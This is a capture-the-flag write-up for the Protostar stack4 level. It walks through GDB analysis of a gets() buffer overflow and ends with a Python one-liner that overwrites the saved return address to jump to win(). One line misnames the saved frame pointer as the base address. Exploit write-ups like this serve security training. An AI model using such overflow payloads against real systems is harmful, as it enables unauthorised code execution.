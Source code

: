 # Stack4

## Description

Stack4 takes a look at overwriting saved EIP and standard buffer overflows.

This level is at `/opt/protostar/bin/stack4`

### Hints

- A variety of introductory papers into buffer overflows may help.
- gdb lets you do “run < input”
- EIP is not directly after the end of buffer, compiler padding can also increase the size.

## Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

## Approach

Let's analyse the binary with `GDB`.

```bash
(gdb) disassemble main
Dump of assembler code for function main:
0x08048408 <main+0>:    push   ebp
0x08048409 <main+1>:    mov    ebp,esp
0x0804840b <main+3>:    and    esp,0xfffffff0
0x0804840e <main+6>:    sub    esp,0x50
0x08048411 <main+9>:    lea    eax,[esp+0x10]
0x08048415 <main+13>:   mov    DWORD PTR [esp],eax
0x08048418 <main+16>:   call   0x804830c <gets@plt>
0x0804841d <main+21>:   leave
0x0804841e <main+22>:   ret
End of assembler dump.

(gdb) disassemble win
Dump of assembler code for function win:
0x080483f4 <win+0>:     push   ebp
0x080483f5 <win+1>:     mov    ebp,esp
0x080483f7 <win+3>:     sub    esp,0x18
0x080483fa <win+6>:     mov    DWORD PTR [esp],0x80484e0
0x08048401 <win+13>:    call   0x804832c <puts@plt>
0x08048406 <win+18>:    leave
0x08048407 <win+19>:    ret
End of assembler dump.

(gdb) b *main+21
Breakpoint 1 at 0x804841d: file stack4/stack4.c, line 16.

(gdb) r
Starting program: /opt/protostar/bin/stack4 
AAAAAAAAAAAAAAAAAAAAAAA
0xbffff760:     0xbffff770      0xb7ec6165      0xbffff778      0xb7eada75
0xbffff770:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff780:     0x41414141      0x00414141      0xbffff7b8      0x08048449
0xbffff790:     0xb7fd8304      0xb7fd7ff4      0x08048430      0xbffff7b8
0xbffff7a0:     0xb7ec6365      0xb7ff1040      0x0804843b      0xb7fd7ff4
0xbffff7b0:     0x08048430      0x00000000      0xbffff838      0xb7eadc76
0x804841d <main+21>:    leave  
0x804841e <main+22>:    ret    

Breakpoint 1, main (argc=1, argv=0xbffff864) at stack4/stack4.c:16
16      stack4/stack4.c: No such file or directory.
        in stack4/stack4.c

(gdb) x/x $ebp
0xbffff7b8:     0xbffff838
```

Input characters starts at `0xbffff770` and It's base at `0xbffff838`. Let's make some calculation, How much bytes we need to smash the memory.

```bash
(gdb) p/d $ebp - 0xbffff770
$1 = 72

(gdb) p/d $ebp - 0xbffff770 + 4
$2 = 76
```

Added 4 bytes to skip the saved frame pointer.

## Exploitation

Let's Make a payload of 76 bytes then add return address and exploit.

```bash
python -c 'import struct; print "A"*(64+12)+struct.pack("I",0x080483f4)' > ~/exp && ./stack4 < ~/exp
```
